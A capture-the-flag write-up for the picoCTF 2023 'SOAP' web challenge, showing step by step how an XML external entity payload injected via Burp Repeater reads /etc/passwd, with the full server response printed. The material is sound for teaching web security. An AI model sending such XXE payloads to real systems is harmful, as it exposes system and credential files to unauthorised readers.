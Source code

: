 # SOAP

- [Challenge information](SOAP.md#challenge-information)
- [Solution](SOAP.md#solution)
- [References](SOAP.md#references)

## Challenge information
```
Points: 100
Tags: picoCTF 2023, Web Exploitation, XXE
Author: GEOFFREY NJOGU

Description:
The web project was rushed and no security assessment was done. 
Can you read the /etc/passwd file?

Hints:
1. XML external entity Injection
```

## Solution

It's usually good practice to look through the source code of the web site but in this case we already know what
we are looking for thanks to the hint. For more background on XXE see the references below.

Start [BURP Suite](https://portswigger.net/burp) and set 'Intercept' to off under the Proxy -> Intercept tab. 
Then configure your browser to use Burp as its proxy and go to the web site.

Clicking on any of the 'Details' buttons sends POST requests with the following payload
```
<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>
```

We will inject code in this payload to read the `/etc/passwd` file.

Under Proxy -> HTTP history tab right-click on any of the POST requests and 'Send to Repeater'.
Then navigate to the Repeater tab.

In the XML-payload add `<!DOCTYPE data [<!ENTITY pico SYSTEM '/etc/passwd'>]>` between the first XML-line and `<data>`.  
Then replace the number with `&pico;` and don't change anything else.

In total your XML-payload should look like this
```
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE data [<!ENTITY pico SYSTEM '/etc/passwd'>]>
  <data>
    <ID>
      &pico;
    </ID>
  </data>
```

The 'pico' name is arbitrary and can be called anything.

Press the 'Send'-button to send your request.

The response should look like this
```
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.10
Date: Fri, 28 Jul 2023 11:58:26 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{<REDACTED>}
```

The flag is included in the last line of the `/etc/passwd` file output.

## References

 - [XML external entity (XXE) injection](https://portswigger.net/web-security/xxe)
 - [XML External Entity (XXE) Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
